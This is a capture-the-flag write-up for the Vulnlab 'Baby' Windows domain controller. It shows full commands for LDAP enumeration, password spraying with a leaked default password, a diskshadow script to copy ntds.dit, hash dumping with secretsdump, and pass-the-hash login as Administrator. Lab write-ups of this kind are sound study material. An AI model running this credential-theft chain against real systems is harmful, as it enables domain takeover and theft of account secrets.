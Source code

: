 ```yaml
---
layout: writeup
category: Vulnlab
chall_description: User: Look into anonymous LDAP Access. Root: Look at user privileges.
points: 
solves: 
tags: windows
date: 2024-09-05
comments: true
---
```


This is my write-up for the Baby machine from Vulnlab.

# Enumeration

We started executing a full port scan on the host.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ sudo nmap -v -sS -Pn -p- 10.10.98.130 --min-rate=300 --max-rate=500
```

![Untitled](Untitled.png)

Now, we execute a port scan only on the open ports that we have found before.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ sudo nmap -vv -sV -sC -Pn -p 53,88,135,139,389,445,464,593,636,3268,3269,3389,5357,5985,9389 -oA nmap/baby 10.10.98.130
```

![Untitled](Untitled%201.png)

![Untitled](Untitled%202.png)

We found the machine name, the domain, and the domain controller name, so we write it into our local hosts file.

![Untitled](Untitled%203.png)

Now, we execute the `netexec` tool to enumerate the SMB service. We could verify that we can log into the SMB as anonymous.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ netexec smb baby.vl
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ netexec smb baby.vl --shares
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ netexec smb baby.vl -u "" -p "" --shares
```

![Untitled](Untitled%204.png)

But we couldn’t list any shares anonymously. So we try enumerating users with `kerbrute`, also without success. Finally, we enumerate the LDAP service using the `ldapsearch` tool. We could enumerate the accounts that were created on the host, and the default password when a new user is created.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ ldapsearch -H ldap://10.10.98.130 -x -b "DC=baby,DC=vl"
```

![Dev Users](Untitled%205.png)

Dev Users

![IT Users](Untitled%206.png)

IT Users

The Teresa.Bell user has a description field saying “Set the initial password to BabyStart123!”.

![Untitled](Untitled%207.png)

We save those all users found on a list of users, after filtering to generate a clean output with only the correct usernames.

# Exploitation

First, we check if the `Teresa.Bell` has the initial password like in her description field, but we were not successful. So we execute the password spraying technique to verify if any other user has the initial password set.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ netexec smb baby.vl -u users.txt -p 'BabyStart123!' --continue-on-success
```

![Untitled](Untitled%208.png)

We could verify the `Caroline.Robinson` user did not change her password. Using the `smbpasswd` tool, we can change the initial password and redefine to one of our choice.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─[☢] $ smbpasswd -r baby.vl -U caroline.robinson
```

![Untitled](Untitled%209.png)

Now, we check if the password really has been changed.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ netexec smb baby.vl -u caroline.robinson -p 'hacker@123'
```

![Untitled](Untitled%2010.png)

We were able to change the `caroline.robinson`’s password. Now we can log into WinRM service as this user.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ evil-winrm -i 10.10.98.130 -u caroline.robinson -p 'hacker@123'
```

![Untitled](Untitled%2011.png)

## Privilege Escalation

Checking the privileges for `caroline.robinson` account, we verify she has the `SeBackupPrivilege` enabled.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> whoami /priv
```

![Untitled](Untitled%2012.png)

With this privilege, we can save the SAM database and de SYSTEM file to retrieve the NTLM hashes for the users.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> reg save hklm\sam sam
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> reg save hklm\system system
```

![Untitled](Untitled%2013.png)

Now we download these files to our local machine.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> download sam
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> download system
```

![Untitled](Untitled%2014.png)

We were able to retrieve the NTLM hashes for the users locally using the secretsdump impacket tool.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ impacket-secretsdump -sam sam -system system LOCAL
```

![Untitled](Untitled%2015.png)

We could not log into WinRM using the Administrator’s hash retrieved before, because this hash is for the local Administrator user, not the Administrator DC user. So we have to retrieve the administrator DC user that is saved in the ntds.dit file. First, we try to create a ***shadow copy*** of the `C:` drive using the `vssadmin` tool, but we do not have permissions to execute it. We tried some other techniques without success.

Searching on the Internet, we could found a technique to retrieve the ntds.dit file through diskshadow:

[Dumping Domain Controller Hashes Locally and Remotely | Red Team Notes](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration)

First, we create a diskshadow script called `script.txt`  with the content and upload it to the host:

```
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

```bash
# uploading the file
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> upload /home/th3g3ntl3m4n/vulnlab/baby/www/script.txt
```

Now, we execute the diskshadow tool to execute our script.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> diskshadow /s script.txt
```

![Untitled](Untitled%2016.png)

Now we copied the `ntds.dit` file from the new drive, (`E:`), created above.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> robocopy /b E:\Windows\ntds . ntds.dit
```

![Untitled](Untitled%2017.png)

Finally, we download the `ntds.dit` file to our local machine and execute the secretsdump tool to retrieve the Administrator’s DC hash.

![Untitled](Untitled%2018.png)

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ impacket-secretsdump -sam sam -system system -ntds ntds.dit LOCAL
```

![Untitled](Untitled%2019.png)

We now just log into the WinRM service as Administrator using the ***Pass-The-Hash (PTH)*** technique.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ evil-winrm -i 10.10.98.130 -u Administrator -H ee4457ae59f1e3fbd764e33d9cef123d
```

![Untitled](Untitled%2020.png)